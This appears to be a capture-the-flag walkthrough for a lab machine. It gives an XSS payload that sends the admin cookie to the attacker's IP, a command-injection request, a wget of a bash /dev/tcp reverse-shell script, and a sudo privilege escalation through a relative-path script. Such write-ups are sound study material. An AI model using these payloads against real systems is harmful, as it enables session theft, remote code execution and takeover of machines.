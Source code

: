 # MACHINE - HEADLESS

---

## OPEN PORTS

```bash
$ nmap -sVC -T4 -Pn $IP

22/tcp   open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
5000/tcp open  upnp?
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.1 200 OK
|     Server: Werkzeug/2.2.2 Python/3.11.2
```

- Two open ports, one SSH and the other seems to be HTTP

---

## INVESTIGATING THE SITE

- Opening the site we see a countdown and a button for questions
- The source code shows that when the counter reaches zero then a "Now Live" will the shown
- There is a single Cookie

```bash
is_admin=InVzZXIi.uAlmXlTvm8vyihjNaPDWnvB_Zfs
```

- Gobuster Directory enumeration found two directories: `support` and `dashboard`
- The second one is not accessible.
- Let's click on the "For question" button and redirect to the `/support` page
- There is POST form
- Putting some data and then submitting it seems that does not happen anything.
- From the nmap scan we see that there is `Sever: Werkzeug/2.2.2`

> Werkzeug is a comprehensive WSGI web application library. It began as a simple collection of 
> various utilities for WSGI applications and has become one of the most advanced WSGI utility libraries.
> WSGI is the Web Server Gateway Interface. It is a specification that describes how a web server 
> communicates with web applications, and how web applications can be chained together to process one request.
> It includes an interactive debugger that allows inspecting stack traces and source code in the browser 
> with an interactive interpreter for any frame in the stack.

- If the app has been started in debug mode, than it has a `console` page vulnerable to RCE.
- However, debug mode is not enabled.
- Returning to the support page, we could try to use some XXS
- In particular, we would like to obtain an `admin` cookie.
- The first part of the cookie we already have, can be decoded into `user`
- This might mean that it is not the admin cookie
- In the support page we can inject the payload into the message box
- The payload is something like this

```html
<img src=x onerror=fecth('http://$MyIP:8000/' + document.cookie);>
```

- This will request for an unexistance image
- If the image does not exists than a request to `'http://$MyIP:8000/' + document.cookie` is made
- Let's start a simple HTTP server with python
- Write a simple Python script to run the POST request

```python
import requests

ip = "10.10.16.6" # put your IP here
data = {
    "fname" : "john", 
    "lname":"Hend", 
    "email":"j.here@email.com", 
    "phone":"112123124", 
    "message" : f"<img src=x onerror=fetch('http://{ip}:8000/'+document.cookie);>"}

cookie = {"is_admin" : "InVzZXIi.uAlmXlTvm8vyihjNaPDWnvB_Zfs"}
heads = {
    "Content-Type" : "application/x-www-form-urlencoded",
    "User-Agent": f"<img src=x onerror=fetch('http://{ip}:8000/'+document.cookie);>"
}

resp = requests.post("http://10.10.11.8:5000/support", data=data, cookies=cookie, headers=heads)
print(resp.text)
```

- Notice that the payload must be also in the `User-Agent` header
- Run the script and ...

```bash
$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
<truncated> code 404, message File not found
<truncated> "GET /is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0 HTTP/1.1" 404 -
```

- Now, we have a possible admin cookie 

```bash
is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0
```

- Notice that `ImFkbWluIg` is the base64 encoding of `admin`
- Now we can try to reach the `dashboard` page using this cookie

---

## OBTAINING A REVERSE SHELL

- The dashboard page is a simple page with just a date selector and a button
- Let's analyze the post request using Burp
- When clicking the button, there is only one parameter that is `date`
- If we try to use OS command injection, it will work for some reason
- Example, the following request

```html
POST /dashboard HTTP/1.1
Host: 10.10.11.8:5000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) 
Accept: text/html,application/xhtml+xml,application/xml;q=0.9
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 31
Origin: http://10.10.11.8:5000
Connection: close
Referer: http://10.10.11.8:5000/dashboard
Cookie: is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0
Upgrade-Insecure-Requests: 1

date=2023-09-15;id
```

- Will obtain the following response

```html
<trucated>
<div id="output-content" 
     style="background-color: green; color: white; ..."
>
        Systems are up and running! uid=1000(dvir) gid=1000(dvir) 
        groups=1000(dvir),100(users)
</div>
```

- Hence, we can try to inject some revershell command to obtain a shell
- We cannot directly run it using the requests
- Instead, we can upload files and then execute them
- Create a simple `revshell.sh` file

```bash
#!/bin/bash

IP=10.10.16.6 # put your IP
PORT=1234 # put netcat listening port
bash -i >&1 /dev/tcp/$IP/$PORT 0>&1
```

- Start a simple Python HTTP server using `python3 -m http.server`
- Using Burp make a new POST requests on the `dashboard` page

```
<truncated>
date=2023-09-15;wget http://10.10.16.6:8000/revshell.sh
```

- Start the netcat listener using `nc -nlvp <whatever-port>`
- Finally, run the reverse shell using another HTTP POST request

```
<truncated>
date=2023-09-15;bash revshell.sh
```

- At this point we have a shell on the remote host
- On the remote host we are logged in as `dvir` on its `$HOME/app` folder
- The user flag is in the `$HOME/user.txt` file

```bash
dvir@headless:~/app$ cd ..
dvir@headless:~$ cat user.txt
<USER-FLAG>
```

- Now, we need to obtain the root flag
- In order to do this we need to escalate privileges

---

## PRIVILEGE ESCALATION

- First thing, let's see if there are some command that `dvir` can run as sudo

```bash
dvir@headless:~$ sudo -l
Matching Defaults entries for dvir on headless:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    use_pty

User dvir may run the following commands on headless:
    (ALL) NOPASSWD: /usr/bin/syscheck
```

- It seems that `/usr/bin/syscheck` will be run as root without requesting any password
- The question is: *What syscheck does*? 

```bash
dvir@headless:~$ sudo syscheck
Last Kernel Modification Time: 01/02/2024 10:05
Available disk space: 1.9G
System load average:  0.00, 0.04, 0.00
Database service is not running. Starting it...
```

- With this output we cannot see anything special
- let's inspect the file

```bash
dvir@headless:~$ file /usr/bin/syscheck
/usr/bin/syscheck: Bourne-Again shell script, ASCII text executable
```

- It is not a compiled executable
- Let's inspect the content

```bash
dvir@headless:~$ cat /usr/bin/syscheck
<truncated>
if ! /usr/bin/pgrep -x "initdb.sh" &>/dev/null; then
  /usr/bin/echo "Database service is not running. Starting it..."
  ./initdb.sh 2>/dev/null
else
  /usr/bin/echo "Database service is running."
fi
```

- From the previous output we can see that it is looking for `initdb.sh` file in the CWD
- To make things simple let's just create it with the following content

```bash
cat /root/root.txt
```

- At this point just run `syscheck` from the current directory and work is done

```bash
dvir@headless:~$ syscheck
Last Kernel Modification Time: 01/02/2024 10:05
Available disk space: 1.9G
System load average:  0.07, 0.08, 0.02
Database service is not running. Starting it...
<ROOT-FLAG>
```